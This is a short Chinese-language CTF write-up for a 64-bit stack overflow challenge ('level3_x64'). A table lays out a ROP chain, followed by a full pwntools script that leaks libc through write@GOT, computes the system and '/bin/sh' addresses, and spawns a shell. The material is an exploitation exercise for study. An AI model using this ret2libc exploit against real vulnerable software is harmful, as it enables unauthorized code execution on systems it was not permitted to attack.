

- `64`位`libc`泄露

1. 漏洞函数中存在溢出
2. 使用溢出泄露`libc`
3. 构造`payload`获得`shell`

| rbp  |           |         |                                |                 |
| ---- | --------- | ------- | ------------------------------ | --------------- |
|      | padding   |         |                                | 0x80            |
|      |           |         |                                | 0x8             |
|      | pop_rdi   | ret     | 0x00000000004006b3             |                 |
|      | 0x1       | pop     |                                |                 |
|      | pop_rsi   | ret     | 0x00000000004006b1             |                 |
|      | write_got | pop_rsi | elf.got['write']               | 没找到更好的rop |
|      | 0x0       | pop_r15 |                                |                 |
|      | write_plt | ret     | elf.plt['write']               |                 |
|      |           | ret     | elf.sym['vulnerable_function'] |                 |

> 泄露`libc`payload1构造

```python
from pwn import *
#context.log_level = 'debug'
elf = ELF('level3_x64')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('level3_x64')
#io = gdb.debug('./level3_x64','break vulnerable_function')
padding = 0x80
payload1 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(0x1)+p64(0x00000000004006b1)+p64(elf.got['write'])+p64(0x0)+p64(elf.plt['write'])+p64(elf.sym['vulnerable_function'])
io.sendlineafter(b'Input:\n',payload1)
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr->',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
sys_addr = Liboffset + Lib.sym['system']
payload2 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```


